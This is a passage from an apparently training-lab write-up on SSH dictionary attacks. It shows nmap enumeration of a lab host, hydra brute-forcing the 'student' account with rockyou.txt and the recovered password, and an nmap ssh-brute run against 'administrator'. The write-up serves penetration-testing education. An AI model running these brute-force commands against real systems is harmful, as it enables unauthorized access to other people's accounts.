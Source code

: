 <details><summary>Reveal Flag - /home/student/FLAG is: 🚩</summary></details>

## Lab 2

>  🔬 [SSH Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=527)
>
>  - Target IP: `192.230.83.3`
>  - Detailed `SSH` Enumeration

```bash
ip -br -c a
	eth1@if130414   UP   192.230.83.2/24
```

- Target IP is `192.230.83.3`

```bash
nmap -sV 192.230.83.3
```

```bash
22/tcp open  ssh   OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
```

- Use `hydra` to find *student* user password

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l student -P /usr/share/wordlists/rockyou.txt 192.230.83.3 ssh
```

```bash
[DATA] attacking ssh://192.230.83.3:22/
[STATUS] 180.00 tries/min, 180 tries in 00:01h, 14344223 to do in 1328:11h, 16 active
[22][ssh] host: 192.230.83.3   login: student   password: friend
1 of 1 target successfully completed, 1 valid password found
```

![hydra bruteforce](.gitbook/assets/image-20230216151839392.png)

> 📌 *student*'s password is `friend`

- Use [nmap ssh-brute script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to perform brute-force password guessing for *administrator* user

```bash
echo "administrator" > users
nmap -p22 --script=ssh-brute --script-args userdb=/root/users 192.230.83.3
```
